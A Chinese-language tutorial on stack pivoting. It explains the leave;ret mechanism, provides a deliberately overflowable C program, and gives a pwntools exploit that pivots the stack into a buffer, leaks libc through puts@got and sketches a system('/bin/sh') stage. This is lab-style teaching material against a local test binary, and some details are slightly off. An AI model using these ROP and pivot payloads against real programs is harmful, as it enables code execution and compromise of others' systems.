 ## 栈迁移

栈迁移主要就是为了解决栈溢出空间大小不足的问题

通过栈迁移可以把fake_ebp-4(32位的情况，如果是64位就是fake_rbp-8)通过着这种方法是的运行两次leave可以把esp的数据修改为fake_ebp，从而完成栈迁移这样就是在溢出不住的情况下来完整构造rop链

## 栈迁移到数据填充段

实际步骤

```tex
leave -> mov esp,ebp;pop ebp;

ret;

第一次leave;ret;会把栈上的ebp->ebp寄存器

第二次leave;ret;相当于寄存器的值->esp寄存器

并且esp+=4
```

使用这个方法的主要一点是要获取到buf的实际栈地址

因此我们要使用这个方法就要泄露出当时buf的空间来使得我们可以进行迁移

因此我们这里使用一个程序进行构造

```python
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void vuln() {
    char buf[0x100];
    printf("buf addr: %p\n", buf);
    puts("please input:");
    read(0, buf, 0x300);
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    vuln();

    return 0;
}

```

这个程序就是使用了一个格式化字符串来返回一个buf地址使得我们可以使用同时在这里满足了这个填充段数据的迁移因此我们可以使用栈迁移的方式来使用

脚本

```python
from pwn import *
context.log_level='debug'
io = process("./test")
libc = ELF("./libc-2.31.so")
elf = ELF("./test")

io.recvuntil('buf addr: ')
buf_addr = int(io.recvline(False),16)
log.info("buf_add: "+hex(buf_addr))

payload = b''
payload += p64(0x0401293)#rdi
payload += p64(elf.got['puts']) # puts@got
payload += p64(0x401070) # puts@plt
payload += p64(elf.sym['vuln'])
payload = payload.ljust(0x100, b'\x00')
payload += p64(buf_addr - 8)
payload += p64(elf.search(asm('leave; ret;'), executable=True).__next__())

gdb.attach(io)
io.sendlineafter("please input:",payload)

# pause()
# gdb.attach(io)
io.recv()
libc_address = u64(io.recv(6).ljust(8,b'\x00'))-libc.symbols['puts']
log.info("libc_base: " + hex(libc_address))

# payload = b''
# payload += p64(elf.search(asm('pop rdi; ret;'), executable=True).next())
# payload += p64(libc.search("/bin/sh").__next__()) # puts@got
# payload += p64(libc.sym['system']) # puts@plt
# payload = payload.ljust(0x100, 'x00')
# payload += p64(buf_addr - 8)
# payload += p64(elf.search(asm('leave; ret;'), executable=True).__next__())
# io.sendafter("please input:n", payload)

io.interactive()
```

